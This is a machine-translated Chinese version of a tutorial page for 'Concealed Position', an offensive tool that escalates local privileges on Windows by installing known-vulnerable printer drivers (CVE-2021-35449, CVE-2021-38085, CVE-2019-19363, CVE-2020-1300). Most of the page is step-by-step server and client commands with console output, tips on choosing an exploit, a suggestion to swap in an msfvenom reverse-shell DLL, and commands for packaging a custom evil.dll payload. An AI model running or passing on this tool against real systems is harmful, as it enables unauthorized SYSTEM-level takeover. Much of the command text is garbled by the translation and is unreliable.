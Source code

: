 # 隐蔽位置:自带打印驱动程序权限提升工具

> 原文：<https://kalilinuxtutorials.com/concealed-position/>

[![](img//1b5c4e156aef77796826ca4abf3b1ba9.png)](https://1.bp.blogspot.com/-vnsCV6uRFuw/YUnKhdrP9MI/AAAAAAAAK5w/V3CaoDmz14YZIErlSFSC5CBR0IZoNCCEACLcBGAsYHQ/s679/printer_hack.png)

**隐藏位置**是利用“自带漏洞”的概念对 Windows 进行的本地权限提升攻击。具体来说，隐藏位置(CP)使用 Windows 中设计的*封装点和打印逻辑，允许低权限用户暂存和安装打印机驱动程序。CP 专门安装具有已知漏洞的驱动程序，然后利用这些漏洞升级到系统。隐蔽阵地首次出现在 DEF CON 29 上。*

**有哪些功勋可用**

隐蔽位置提供了四个漏洞——都有同样愚蠢的名字:

*   酸性损害–CVE-2021-35449–利盟通用打印驱动程序 LPE
*   辐射损坏–CVE-2021-38085–佳能 TR150 打印驱动程序 LPE
*   中毒损害–CVE-2019-19363–理光 PCL6 打印驱动程序 LPE
*   削减损坏-CVE-2020-1300-Windows 打印假脱机系统 LPE

这种利用是巧妙的，因为除了削减损害，他们将继续工作，甚至在问题被修补后。Windows 阻止用户使用旧驱动程序的唯一机制是吊销驱动程序的证书——这不是(？)历史上做过。

**但是我该用哪个漏洞利用呢？！**

可能是酸中毒。辐射伤害和中毒伤害是竞争条件(覆盖一个 DLL ),而砍杀伤害，希望在任何地方都能被修补。

**它是如何工作的？**

隐蔽位置有两部分。一个邪恶的印刷商和一个客户。客户端访问服务器，获取驱动程序，将驱动程序存储在驱动程序存储中，安装打印机，并利用安装过程。轻松点。用 MSAPI 的话说，攻击是这样的:

**步骤 1:将驱动程序存放在驱动程序存储中
客户端到服务器:GetPrinterDriver
服务器到客户端:用驱动程序响应
阶段 2:从驱动程序存储中安装驱动程序
客户端:InstallPrinterDriverFromPackage
阶段 3:添加本地打印机(开发阶段)
客户端:添加打印机**

重要的是要注意，削减损坏实际上并不是这样工作的。SLASHINGDAMAGE 是 DEFCON 28 (2020)中描述的邪恶打印机攻击的一种实现，早就打了补丁。我只是碰巧喜欢这次攻击(它引发了本开发的其余部分),并认为我应该把这个漏洞留在我邪恶的服务器上……尽管这可能会令人困惑。

**这是 Windows 漏洞吗？**

可以说，是的。驱动程序存储是“第三方驱动程序包的可信集合”，需要管理员访问才能修改。使用`**GetPrinterDriver**`,低特权攻击者可以将任意驱动程序放入商店。对我来说，这跨越了明显的安全界限。

当他们发布 CVE-2021-34481 时，微软似乎同意了。

虽然…这只是系统的一个特征，而不是一个漏洞，这是有争议的。真的没那么重要。攻击者可以升级到标准 Windows 安装上的系统。

CVE-2021-34481 影响了 Windows 的哪些版本？

至少 Windows 8.1 及以上。

**我如何使用这些工具？**

简单！简单到会有很多段落来描述它！

**CP 服务器**

首先，让我们看看 cp_server 的命令行选项:

**C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>CP _ server . exe
*_* *|
|*|*|* ****|||
|*|*|
|*|*|*|*|*|*|*|*| *CLI 选项:
-h，–help 显示帮助消息
-e，–exploit arg 漏洞利用要使用
-c，–cabs arg(=。\ cab _ files)cab 文件的位置
漏洞可用:
酸伤害
中毒伤害
辐射伤害
砍伤伤害
C:\ Users \ albino lo*********bster \ hidden _ position \ build \ x64 \ Release \ bin>

上面你可以看到服务器需要两个选项:

*   为其配置打印机的漏洞
*   此存储库 cab_files(.\cab_files\是默认值)

例如，假设我们想要配置一个邪恶的打印机来提供 ACIDDAMAGE 驱动程序。只要这样做:

**C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>CP _ server . exe-e acid damage
*_* **|*|||*|*|*|*|*|*|*|*|*|
_*_
|
| || || |
|*|*|
|*|*|*|*|*|*|*|*|*
[+]创建临时空间……
[+]扩展。\ cab _ files \ acid damage \ lmud1 o 40 . cab
[+]推入驱动存储
[+]清理 tmp 空间
[+]安装打印驱动
[+]驱动安装完毕！
[+]安装共享打印机
[+]共享打印机已安装！
[+]自动化完成。
【！]重要的手动步骤！
[0]在高级共享设置中，关闭密码保护共享。
【1】蓄势待发！
C:\ Users \白化龙虾\ hidden _ position \ build \ x64 \ Release \ bin>****

 *就这样，您会在系统上看到一台新的打印机:

**PS C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>Get-Printer
Name computer Name Type driver Name port Name 共享发布
d
————————————————————————————
acid damage Local Lexmark Universal v2 LPT 1:True False
cute pdf Writer Local cute pdf Writer v 4.0 CP w4:False False
OneNote for Windows 10 Local Microsoft Software Pri…of…False False
Microsoft XPS Document Writer Local Microsoft XPS Document…port prompt:False False False
Microsoft Print To PDF Local Microsoft Print To PDF port prompt:False False False
Fax Local Microsoft Shared Fax D…SHR Fax:False False
PS C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>**

请注意，有一个手动步骤`**cp_server**`会提示您去做。因为我是一个垃圾黑客，我不知道如何通过编程来设置“高级共享设置”——>“关闭密码保护的共享”。你必须自己做那件事！

使用`**SLASHINGDAMAGE**`的过程略有不同。您需要首先安装 CutePDF Writer(在第三方目录中找到安装程序)。然后运行 cp_server 和*然后*你仍然需要遵循几个手动步骤并重启。

**CP 客户端**

客户端同样易于使用。让我们看看它的命令行选项:

**C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>CP _ client . exe
*_* *|
|*|*|* ****|||
|*|*|
|*|*|*|*|*|*|*|*| *CLI 选项:
-h，–帮助显示帮助消息
-r，–rhost arg 远程邪恶打印机地址
-n，–name arg 远程邪恶打印机名称
-e，–exploit arg 利用漏洞使用
-l，–本地无远程打印机。仅限本地攻击。
-d，–用户提供的要执行的 dll 的 DLL 参数路径。
可用攻击:
酸性伤害
中毒伤害
辐射伤害*********

首先，我想谈谈–dll 选项。客户端有一个嵌入的有效负载，它将简单地写入 C:\result.txt 文件。但是，用户可以通过此选项提供自己的 DLL。msfvenom 生产的 x64 reverse shell 就是一个很好的例子。但是在剩下的时间里，我们只假设嵌入的有效载荷。

`**cp_client**`有两种模式:远程和本地。远程选项是最有趣的，因为它将易受攻击的驱动程序添加到驱动程序存储中(从而执行自带打印驱动程序漏洞)，所以我们将首先使用它。假设我想连接回我们之前配置的 evil ACIDDAMAGE 打印机。我只需要提供:

*   我想利用的漏洞
*   邪恶的打印机 IP 地址
*   邪恶共享打印机的名称

像这样！

**C:\ Users \ albino lobster \ Desktop>CP _ client . exe-r 10 . 0 . 0 . 9-n acid damage-e acid damage
*_* *|
|* ||*|*| | | | | | | | | || _ | || |*|*|*|*|*|*|*|
_*_
|
*|*|||
|*|*|
|*|
|*|*|*|*| *[+]检查驱动程序是否已经安装
[-]驱动程序不可用。
[+]回调到 evil printer @ \ 10 . 0 . 0 . 9 \ acid damage
[+]驱动程序存储中的登台驱动程序
[+]安装登台驱动程序
[+]驱动程序已安装！
[+]起始酸损坏
[+]检查 C:\ program data \ Lexmark Universal v2 \是否存在
[-]目标目录不存在。触发安装。
[+]安装打印机
[+]读入 C:\ program data \ Lexmark Universal v2 \ Universal Color laser . gdl
[+]搜索文件内容
[+]更新文件内容
[+]删除更新的 gpl
[+]删除 Dll.dll 到磁盘
[+]暂存 c:\tmp
[+]安装打印机
[！祝你成功！****

就是这样！要执行仅本地攻击，您只需提供以下漏洞:

**C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>CP _ client . exe-l-e acid damage
*_* *|
|*|*|* *|*|||*|*|*|*|*|*|*|*|*|
_*_
|
| || || |
|*|*|
|*|*|*|*|*|*|*|*|*
[+]检查驱动程序是否已经安装
[+]驱动程序已安装！
[+]起始酸损坏
[+]检查 C:\ program data \ Lexmark Universal v2 \是否存在
[-]目标目录不存在。触发安装。
[+]安装打印机
[+]读入 C:\ program data \ Lexmark Universal v2 \ Universal Color laser . gdl
[+]搜索文件内容
[+]更新文件内容
[+]丢弃更新的 gpl
[+]将 Dll.dll 放到磁盘
[+]暂存 c:\tmp
[+]安装打印机
[！祝你成功！
C:\ Users \白化龙虾\ hidden _ position \ build \ x64 \ Release \ bin>***

**为什么客户端没有 SLASHINGDAMAGE 选项？**

不需要特殊的客户端进行开发。您可以只使用用户界面或命令行连接到远程打印机，就是这样！不幸的是，如果您想滚动一个定制的有效负载，您需要更新 cab_files 目录中的 CAB。但那很简单。大概是这样的:

**echo "evil.dll " "../../evil . dll ">files . txt
make cab/f files . txt
move disk 1/1 . cab exploit . cab**

知道回购中的版本`**SLASHINGDAMAGE**`将 ualapi.dll 放入 SYSTEM32，并且当在重启时执行时，它会放入 C:\result.txt 文件可能很重要。

**拉请求和 bug**

是提交拉取请求还是归档 bug？太好了！我很感激，但是如果你没有提供足够的细节来重现一个错误或者解释为什么一个拉请求应该被接受，那么有 100%的机会我会关闭你的问题而不做任何评论。我很感激你，但是我也很忙。

**其他事情**

需要注意的一点是，inject_me dll 实际上是作为 C 数组嵌入 cp_client 的。如果更新 inject_me，您还需要手动更新 C 数组(只需使用 xxd 来生成数组)。

[**Download**](https://github.com/jacob-baines/concealed_position)*